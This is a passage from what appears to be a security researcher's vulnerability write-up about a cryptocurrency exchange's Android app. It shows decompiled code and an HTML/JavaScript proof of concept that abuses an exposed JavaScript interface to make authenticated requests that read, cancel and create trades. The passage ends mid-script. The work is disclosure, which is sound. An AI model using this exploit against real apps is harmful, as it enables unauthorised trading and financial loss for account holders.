 ```
            return true;
        } else if (optString.equals("get")) {
            BaseActivity i03 = container.i0();
            Intrinsics.checkNotNull(i03);
            Intrinsics.checkNotNullExpressionValue(url, "url");
            m6327b(i03, url, params, hybridJsCallback);
            return true;
        } else {
            return true;
        }
    }
```
From there I came across this method which was taking values from received json string's key parameters `method` ,`url` and `params`. What the `prompt` javascript interface message was doing was that it would receive a json message and if the received message contains key parameter `type` and has it's value `proxy`, then the method would call `mo29545a` the above method. 


What this method `mo29545a` was doing that, it was making an  authenticated arbitrary `post` or `get` requests to `appapi-v2.xcoinsystem.com` this was the api used by app to communicate with backend server and then was sending back  the response of the request to javascript code.

From there to show the impact of vulnerability I crafted a poc  which shows that you can read all open trade position, cancel all open position or create a new trade. 

```
<html>
  <head>
    <title>Exploiting javascript interfaces</title>
    <style>
      #callback-box {
        border: 1px solid black;
        padding: 10px;
        margin-top: 20px;
      }
    </style>
  </head>
  <body>
    <p>reading open order positions</p>
    <button id="read-position">Read order positions</button>
    <p>Cancel Open Position</p>
    <button id="Cancel-Order">Cancel all open Orders</button>
    <p>Create xrpusdt sell Position</p>
    <button id="open-position">Open Position</button>
    <div id="callback-box"></div>
    <script>
      window.callbackDispatcher = function(callbackId, data) {
        var callbackDiv = document.createElement("div");
        callbackDiv.innerText = "Callback ID: " + callbackId + "\nData: " + data;
        document.getElementById("callback-box").appendChild(callbackDiv);
      };
      document.getElementById("Cancel-Order").addEventListener("click", function() {
        window.KuCoin.prompt('{"type":"proxy","params":{"method":"post","url":"v1/trade/order-cancel","tradeType":"TRADE","type":"limit"},"callback":"window.callbackDispatcher","callbackId":"4b7b8f87-c633-4aa4-b0dd-1f85121dacba"}');
      });
      document.getElementById("open-position").addEventListener("click", function() {
        window.KuCoin.prompt('{"type":"proxy","params":{"method":"post","url":"v1/trade/order","symbol":"XRP-USDT","side":"sell","size":"1","price":"1","type":"limit","tradeType":"TRADE"},"callback":"window.callbackDispatcher","callbackId":"4b7b8f87-c633-4aa4-b0dd-1f85121dacba"}');
      });
      document.getElementById("read-position").addEventListener("click", function() {
        window.KuCoin.prompt('{"type":"proxy","params":{"method":"get","url":"v2/kc/trade/orders?status=active"},"callback":"window.callbackDispatcher","callbackId":"4b7b8f87-c633-4aa4-b0dd-1f85121dacba"}');
```